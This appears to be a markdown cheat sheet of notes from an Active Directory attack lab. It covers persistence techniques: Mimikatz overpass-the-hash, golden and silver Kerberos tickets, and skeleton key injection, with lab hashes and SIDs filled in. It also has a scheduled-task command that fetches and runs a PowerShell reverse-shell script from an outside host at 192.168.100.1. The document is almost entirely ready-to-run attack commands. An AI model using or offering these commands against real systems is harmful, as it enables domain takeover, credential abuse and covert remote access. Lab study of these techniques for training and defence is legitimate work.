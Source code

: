 # Persistence
> test

## Over Pass The Hash
PTH with mimikatz --> perform activities as the hash but Windows still think I am the same person
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```

## Golden ticket
Create Golden Ticket -> need krbtgt hash
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
## Silver Ticket
Use hash of service account - In this case dcorp-dc$
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'
```


## Avaiable services
>image form [Hacktrick](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)

![Avaiable services](./images/services.png)

CIFS service (CIFS)
```powershell
ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```
wmi service (HOST + RPCSS)
```powershell
.\PsExec.exe \\dcorp-dc.dollarcorp.moneycorp.local ipconfig
```
Scheduled Tasks (HOST)
```powershell
# Check Access
schtasks /S dcorp-dc.dollarcorp.moneycorp.local
# Create
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
# Run
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```
to do
- add other services


## Skeleton key
Inject skeleton key
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```
Access any computer as any user on the domain using password **mimikatz**
```powershell
Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Credential dcorp\administrator
```
